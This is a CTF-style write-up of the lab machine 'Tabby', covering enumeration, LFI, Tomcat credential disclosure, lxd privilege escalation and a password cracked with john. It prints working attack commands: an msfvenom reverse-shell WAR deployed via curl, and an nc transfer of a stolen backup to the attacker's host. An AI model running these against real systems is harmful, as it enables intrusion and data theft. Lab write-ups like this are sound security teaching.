# Tabby
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.194
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 16:48 BST
Nmap scan report for 10.10.10.194 (10.10.10.194)
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 453c341435562395d6834e26dec65bd9 (RSA)
|   256 89793a9c88b05cce4b79b102234b44a6 (ECDSA)
|_  256 1ee7b955dd258f7256e88e65d519b08d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.36 seconds
```
- Web Server and port `8080`





- `gobuster`
```
└─$ gobuster dir -u http://megahosting.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://megahosting.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/07/01 17:16:46 Starting gobuster in directory enumeration mode
===============================================================
/news.php             (Status: 200) [Size: 0]
/files                (Status: 301) [Size: 318] [--> http://megahosting.htb/files/]
/index.php            (Status: 200) [Size: 14175]
/.php                 (Status: 403) [Size: 280]
/assets               (Status: 301) [Size: 319] [--> http://megahosting.htb/assets/]
/Readme.txt           (Status: 200) [Size: 1574]
/.php                 (Status: 403) [Size: 280]
```

## Foothold
- `LFI`
  - If we scan through a web server, we will find a `/news.php?file=` path
  - We can try checking for `LFI`, which actually works



- According to the message from port `8080`, the file with users should be `etc/tomcat9/tomcat-users.xml`
  - Which returns nothing if we try to curl it


- If we google a bit, we find that Ubuntu might store the file in `/usr/share/tomcat9/etc/`
  - `tomcat:$3cureP4s5w0rd123!`




- `403` for accessing `/manager`
  - But we have access to `/host-manager`




- But we have access to `/manager/text` based on `manager-script` permission from `tomcat-users.xml` - 
  - [Commands](https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Supported_Manager_Commands)



- So 
  - `msfvenom -p java/shell_reverse_tcp LHOST=10.10.16.7 -f war -o shell.war LPORT=6666`
  - `curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/revshell --upload-file shell.war`
  - Launch listener and then `curl http://10.10.10.194:8080/revshell`







## User
- We saw from `LFI` that we have a user `ash`
  - So let's enumerate the box
  - We found a backup file which belongs to `ash`



- I downloaded the file to my box
  - `cat 16162020_backup.zip | nc 10.10.16.7 7777`
  - `nc -lvnp 7777 > backup.zip`
  - Check with `md5sum` for corruptions





- The archive is protected with password, so I used `john` to crack it: `admin@it`



- I found nothing inside the archive
  - But luckily `ash` reused password


## Root
- From the `linpeas` out I saw that `ash` was in `adm` and `lxd` groups


- Let's use the following [post](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)
  - Run these instructions on attack box
```
#Install requirements
sudo apt update
sudo apt install -y git golang-go debootstrap rsync gpg squashfs-tools
#Clone repo
git clone https://github.com/lxc/distrobuilder
#Make distrobuilder
cd distrobuilder
make
#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.18
```
- After running those we will have 2 new files, which we have to upload to target box


- I needed to move uploaded files to `home` folder since I couldn't import the image
  - Then I followed the instructions from the link


- Rooted
```
lxc start privesc
lxc exec privesc /bin/sh
[email protected]:~# cd /mnt/root #Here is where the filesystem is mounted
```


